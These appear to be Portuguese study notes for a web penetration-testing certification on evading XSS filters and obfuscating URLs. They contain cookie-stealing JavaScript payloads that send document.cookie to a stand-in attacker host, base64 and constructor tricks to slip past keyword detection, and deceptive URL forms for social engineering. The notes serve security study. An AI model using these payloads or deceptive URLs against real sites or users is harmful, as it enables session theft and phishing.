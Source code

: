 # Base64 Encoding Evasion

A maioria dos sistemas de detecção utilizam o regex para encontrar palavras maliciosas. Imaginando que quero evadir de um sistema que procura pelas palavras: eval, alert, prompt, document.cookie

Normalmente se usa:
```JavaScript
location.href = 'http://evilpath.com/?c='+escape(document.cookie)
```

Ele não vai funcionar por causa do "document.cookie", uma alternativa seria:
```JavaScript
eval(atob("bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk="))
```

Para esse exemplo também não vai funcionar por causa do "eval", outra possibilidade seria:
```JavaScript
[].constructor.constructor(atob("bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk="))()
```

Outros métodos válidos:
```JavaScript
setTimeout("code")    # Todos os navegadores
setInterval("code")   # Todos os navegadores
setImmediate("code")  # IE 10+
Function("code")()    # Todos os navegadores
```
# URI Obfuscation Techiques

Utilizado principalmente para engenharia social, mas também pode ser usado em alguma situação que seja necessário ocultar a url, dar bypass em algum sistema ou diminuir o tamanho do payload
## URL Shortening

Utilizado para encurtar a url, pode-se usar soluções prontas ou criar a sua própria solução

https://yourls.org/  -> Solução Open Source <br>
https://bitly.com/   -> Solução paga

*colocando um '+' ao fim da url encurtada pelo bitly, é possível descobrir mais informações sobre o verdadeiro link*

Outra forma de descobrir o link verdadeiro é realizando um cURL e analisando o header "Location" na resposta
## URL Hostname Obfuscation

Referência para estudo \[RFC 3986]: https://datatracker.ietf.org/doc/html/rfc3986#page-16
### URL Authority Obfuscation

**Obfuscating with Userinfo**

Estrutura da URI segundo a rfc:
```
foo://example.com:8042/over/there?name=ferret#nose
\_/ \________________/\_________/ \_________/ \__/
 |           |             |           |       |
scheme   authority        path       query  fragment
```

O componente Authority pode ter a seguinte estrutura:
```
[ userinfo "@" ] host [ ":" port ]
```

O campo "userinfo" é usado para autenticação em aplicações, seguindo esse exemplo:
```
http://user:pass@o-site-para-autenticar.com.br
```

Quando o site não possui autenticação esse campo é ignorado. Isso permite usar esse campo para ofuscar informações, criando urls como a seguinte:
```
http://www.google.com@hack.me/xss
```

É possível usar caracteres unicode para deixar a url ainda mais convincente

![](https://github.com/SQU4NCH/eWPTX-Study-Notes/blob/main/Imagens/Pasted%20image%2020231226160208.png)

*Navegadores como o Firefox e o Opera, avisam o usuário final do redirecionamento. Já o Chrome não avisa nada*

**Obfuscating with Host**

Um site pode ser acessado tanto por seu endereço DNS como por seu endereço IP, e esse endereço IP pode estar em diferentes formatos, como por exemplo, Dword, Hexadecimal, Octal

Como exemplo, o Google pode ser acessado usando os seguintes endereços:
```
http://google.com
http://216.58.215.78           # IP
http://3627734862              # DWORD
http://0330.0072.0327.0116     # OCTAL
http://0xd83ad74e              # HEXADECIMAL
http://0xd8.0x3a.0xd7.0x4e     # HEXADECIMAL (separado por número)
```

Também é possível criar um endereço híbrido, mesclando dois ou mais formatos

Ferramenta para ajudar na conversão de formatos:

https://www.silisoftware.com/tools/ipconverter.php
